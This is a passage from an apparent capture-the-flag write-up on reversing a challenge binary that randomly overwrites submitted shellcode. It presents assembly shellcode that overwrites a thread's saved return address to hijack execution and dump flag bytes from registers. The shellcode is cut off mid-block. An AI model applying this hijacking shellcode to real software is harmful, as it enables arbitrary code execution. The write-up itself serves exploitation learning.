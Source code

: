    In another word, it loads a flag byte into `al`, and compares it with `[input+0xff8]`. If they equal, set `RWX+0xff8` to `0` and break; otherwise, continue the loop. At this point the idea is clear, we can change `RWX+0xff8` from `0-255` in shellcode and see if the `RWX+0xff8` is set to `0`. If so, that value is the correct flag byte, and we can print it and then try the next byte.

	However, the `sub_BE8` is troublesome:
	
	```assembly
	sub_BE8         proc near
		mov     rcx, 8
	loc_BEF:
			xor     rax, rax
			rdseed  rax
			and     rax, 0FFFh ; rax = rand([0:0xfff])
			mov     dword ptr [rsi+rax], 0FFFFFFFFh
			; write to shellcode randomly
			dec     rcx
			cmp     rcx, 0
			jg      short loc_BEF
		retn
	sub_BE8         endp
	```
	
	This function will write `0xffffffff` to our shellcode, which might destroy the shellcode. It turns out that after 128+ calls, the probability for our shellcode to be unmodified is very low. 
	

However, according to document of `rdseed`, it is possible for this instruction to return 0. If we can achieve this stably, we can bypass this shellcode destruction. When I was thinking about this, we found that challenge `blursed` has exactly same binary as `cursed`, and the crucial difference of `bozo.bin` is that `call` is replaced with a `jmp` which saves return address into `r15` register. And this difference reminds me that I can simply write the return address of `call` to hijack the `rip` of `bozo.bin` thread to let it execute arbitrary code! No need to struggle with the flag process logic!

Therefore, the shellcode is pretty simple:

```assembly
; ---------------- shellcode at the start of RWX page ----------------
call next
next: pop rsi
mov rdi,rsi
add rdi,0x800-5 ; rdi = RWX page + 0x800

mov rbx,rsp
sub rbx,0x10c8 ; rbx = address of saved rip
; because stack argument passed into `clone`
; is calculated using address of a local variable minus 1024
; clone(read_flag_exec_bozo, **&v17 - 1024**, 0x18900LL, v5);
; 0x10c8 is found by debugging

mov qword ptr [rsi-5+0xff8], 1
; last byte is always \x01 due to padding
; so this breaks the loop and enters `call sub_BE8`

loop:
mov [rbx],rdi ; writing saved rip to RWX+0x800 in a loop
jmp loop

; ---------------- shellcode at RWX page + 0x800 ----------------
call next
next: pop rsi
add rsi,0x100-5
movups [rsi],xmm0
movups [rsi+0x10],xmm1
movups [rsi+0x20],xmm2
movups [rsi+0x30],xmm3
```